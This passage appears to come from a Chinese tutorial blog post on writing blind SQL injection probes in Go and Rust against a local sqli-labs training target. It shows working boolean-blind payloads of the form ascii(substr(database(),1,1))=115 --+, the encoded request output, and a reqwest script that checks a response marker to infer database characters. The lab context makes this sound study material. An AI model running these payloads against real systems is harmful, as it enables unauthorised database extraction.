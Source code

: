 ```go
	// Prepare Query Parameters
	params := url.Values{}
	params.Add("id", "1' and ascii(substr(database(),1,1))=115 --+")

	// Add Query Parameters to the URL
	baseUrl.RawQuery = params.Encode() // Escape Query Parameters

	fmt.Printf("Encoded URL is %q\n", baseUrl.String())
}
```

然后结果为：
```shell
Encoded URL is "http://192.168.3.104/Less-8/?id=1%27+and+ascii%28substr%28database%28%29%2C1%2C1%29%29%3D115+--%2B"
```

未去访问这个 url 就知道不行了，最后一个`+` 被编码了。

不如真实访问一下看看网页的 payload 是怎样的：
```sql
Your SQL:SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115 --+' LIMIT 0,1
```

果然没有 `You are in` 的标示，通过 SQL 也可以看出来为什么我们的 payload 不成功。

因此，结论：**当我们有这个需求的时候，只能通过手工编码。**

## Rust 版

Rust 中的有没有 python 一样的 requests 库呢？
答：还真没有可用且成熟的（截止 2021 年 5 月）。有一个 [requests 库](https://docs.rs/requests)，但是这个库是 3 年前更新的，你敢用吗？我不敢。

但是，Rust 中有比 python 的 requets 的库更强大的库：[reqwest](https://docs.rs/reqwest)。

它虽然没有类似于 Python 的 requests 库一样的 API，但是它足够强大，甚至支持默认支持异步。

所以，python 的 requests 库等同于 Rust 的 reqwest，python 的 `urllib` 等同于 Rust 的 `Hyper`（其实更加与 Golang 的 `net/http` 更像）。

### 坑点 3：Rust 中坑点

Rust 这么完美的语言怎么可能有坑点？没有的。

### 简单的非异步 reqwest 示例

由于 reqwest 默认启用异步的 feature，但是我们只请求简单的内容，无需用上异步这么复杂又牛逼的东西。

因此在 `Cargo.toml` 中增加如下内容以启用 `blocking` 的 feature：

```toml
[dependencies]
reqwest = { version = "0.11.3", features = ["blocking"] }
```

主要的代码如下：
```rust
fn main() -> Result<(), Box<dyn std::error::Error>> {
    let url = "http://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+";
    let mark = "You are in";

    // 类似于python的reqwest库
    let r = reqwest::blocking::get(url)?;
    let body = r.text()?;

    if body.contains(mark) {
        println!("Yes! You are in!");
    }
    Ok(())
```